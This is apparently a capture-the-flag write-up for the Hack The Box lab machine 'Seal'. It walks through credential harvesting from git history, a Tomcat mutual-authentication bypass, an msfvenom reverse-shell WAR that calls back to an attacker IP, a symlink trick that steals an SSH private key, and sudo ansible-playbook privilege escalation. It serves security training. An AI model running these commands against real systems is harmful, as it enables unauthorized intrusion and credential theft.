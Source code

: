 ## Seal

Difficulty: Medium

### User Flag

#### Foothold

```
rustscan -a seal.htb --ulimit 5000 -- -A -sV -sC
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/73fb3362-11b5-401d-a681-72fa89bed2be)

<br>

The website only reveals us the domain name: seal.htb.

![website](https://github.com/b1d0ws/OSCP/assets/58514930/ed312ee3-de05-4413-b807-d662dd9c1827)

<br>

On port 8080, there is GitBucket and we can create our user to see the repositories inside it.

![gitBucket](https://github.com/b1d0ws/OSCP/assets/58514930/c10ef2bb-724e-441a-a70f-b28f5a7bb64c)

![repositories](https://github.com/b1d0ws/OSCP/assets/58514930/820f4c40-6f68-4938-aa22-3a5495a1fbf2)

<br>

Inside root/seal_market, we can find the tomcat credentials searching in history commits of tomcat-users.xml file.   

Also, the todo list on readme give us some hint about mutual authentication being used.

![tomcatUser](https://github.com/b1d0ws/OSCP/assets/58514930/76e92c17-6c10-4514-84e6-f75131d1a21a)

![sealMarketToDo](https://github.com/b1d0ws/OSCP/assets/58514930/5e0e3975-f5ee-42a6-8d84-3e10fe5dc12a)

<br>

As we see in the repository, the project is using nginx and tomcat.  

If we try to access tomcat panel, we get blocked.

![tryingDashboard](https://github.com/b1d0ws/OSCP/assets/58514930/f86f5cf3-d2eb-450d-ac5d-6d334f85fb4e)

<br>

Searching for tomcat mutual authentication bypass, we find [this article]() explaining how to do this.  

The article is based on this [blackhat presentation](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf).  

So to bypass, we can trick the proxy accessing "manager;name=orange/html/".

![accessingDashboard](https://github.com/b1d0ws/OSCP/assets/58514930/367ce80c-8e9c-4b3b-9125-56822c51456b)

<br>

Now just upload a war reverse shell file as usual in tomcat panels.

```
# Generate Payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.11 LPORT=1337 -f war -o revshell.war

# Access the payload
https://10.10.10.250/revshell/
```

![uploadingRevshell](https://github.com/b1d0ws/OSCP/assets/58514930/0ddfeb45-777c-40b0-a537-3674c9aec28b)

<br>

#### User Access

We can manual spot or use pspy to find that ansible is running commands on the background. Inside /opt/backups there are files related to this behavior.  

Reading run.yml we see that this playbook is copying files from /var/lib/tomcat9/webapps/ROOT/admin/dashboard and the copy_links option is enabled.

![runYML](https://github.com/b1d0ws/OSCP/assets/58514930/ded423e3-4493-4220-bd2f-73a69adbf81e)

<br>

This flag says that the symlink will point to the original files.  

Since we can write on /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/, we can abuse this to point to a file we want to read, in this case, luis ssh key.

```
# Creating a symlink pointing to luis SSH Key
ln -s /home/luis/.ssh/id_rsa /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/sshKey

# Now transfer the file result in gz format inside /archives to /tmp and extract it with gunzip and tar.
cd archives
mv backup-2023-07-25-00\:50\:32.gz /tmp/backup.gz
gunzip backup.gz
tar -xzf backup
cat dashboard/uploads/sshKey
```

![writableUploads](https://github.com/b1d0ws/OSCP/assets/58514930/e22fe7fa-1ca2-4ceb-8ed2-ee80ce50a6be)

![creatingLink](https://github.com/b1d0ws/OSCP/assets/58514930/fc8988ac-5f99-4f3c-ab1b-ed96ff97c0e0)

![extractingBackup](https://github.com/b1d0ws/OSCP/assets/58514930/7003a05b-1fae-4564-a41b-42fb110eac2c)

![gettingSshKey](https://github.com/b1d0ws/OSCP/assets/58514930/e570aab7-2168-488c-ac1d-1dc5664be0a5)

<br>

### Root Flag

The privilege escalation is on sudo -l. Our user can use ansible-playbook as sudo on any file. Just proceed as shown in gtfobins.

```
TF=$(mktemp)
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
sudo ansible-playbook $TF
```

![privEsc](https://github.com/b1d0ws/OSCP/assets/58514930/157f3587-7638-43bf-a2b0-541686e6d7dd)
